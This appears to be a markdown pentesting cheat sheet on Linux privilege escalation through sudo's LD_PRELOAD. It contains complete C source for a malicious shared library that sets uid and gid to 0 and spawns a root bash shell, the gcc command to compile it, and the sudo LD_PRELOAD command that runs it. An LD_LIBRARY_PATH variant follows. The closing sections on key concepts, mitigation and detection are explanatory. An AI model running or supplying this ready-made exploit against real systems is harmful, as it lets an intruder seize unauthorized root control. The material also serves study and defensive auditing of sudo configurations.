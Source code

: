 
### Check Sudo Privileges
```bash
sudo -l
```

### Create Malicious Shared Library (root.c)
```bash
cat > root.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF
```

### Compile Shared Library
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

### Exploit LD_PRELOAD (replace with actual sudo command)
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

### Verify Root Access
```bash
id
whoami
```

### Example Using LD_LIBRARY_PATH (Less Common, but Possible)
```bash
# Create a malicious library in a directory you control
# Compile it like above
# LD_LIBRARY_PATH=/path/to/malicious/lib sudo /path/to/vulnerable/binary
```

### List Shared Library Dependencies
```bash
ldd /bin/ls
```


# **Key Concepts:**

- **Shared Libraries (.so):**
    - Dynamically linked libraries used by programs.
    - Can be modified to alter program behavior.
- **`LD_PRELOAD`:**
    - Environment variable that loads a library before others.
    - Allows overriding functions in other libraries.
- **`ldd`:**
    - Utility to list a program's shared library dependencies.
- **Sudo and `LD_PRELOAD`:**
    - If sudo allows `LD_PRELOAD` to be kept in the environment, it can be exploited.

**Exploitation Steps (as described):**

1. **Identify Sudo Privileges:**
    - `sudo -l`: Check for commands the user can run as root.
    - Look for commands that can be exploited with `LD_PRELOAD`.
2. **Create Malicious Shared Library:**
    - Write C code to execute a shell as root.
    - Use `_init()` to ensure the code executes when the library is loaded.
    - Use `unsetenv("LD_PRELOAD");` to clean up the environment to avoid issues with child processes.
3. **Compile Shared Library:**
    - `gcc -fPIC -shared -o root.so root.c -nostartfiles`
4. **Exploit `LD_PRELOAD`:**
    - `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` (replace with the correct path and sudo command)
5. **Verify Root Access:**
    - `id`

**Important Considerations and Enhancements:**

- **Sudo Configuration:**
    - The `env_keep+=LD_PRELOAD` in `/etc/sudoers` is crucial for this exploit.
    - Many systems will clean the environment.
- **Library Loading Order:**
    - `LD_PRELOAD` takes precedence over other library loading mechanisms.
- **Function Overriding:**
    - `LD_PRELOAD` can be used to override specific functions in other libraries.
- **Security Implications:**
    - This is a significant security risk.
    - Proper sudo configuration is essential.
- **Mitigation:**
    - Remove `env_keep+=LD_PRELOAD` from `/etc/sudoers`.
    - Use secure paths in sudo configurations.
    - Regularly audit sudo configurations.
- **Detection:**
    - Monitor for unexpected `LD_PRELOAD` usage.
    - Audit sudo configurations.
    - Use intrusion detection systems.
- **Real world examples:** Researching real world LD_PRELOAD exploits will help solidify understanding of the attack vectors.
- **Other environment variables:** Other environment variables can be missused, such as LD_LIBRARY_PATH.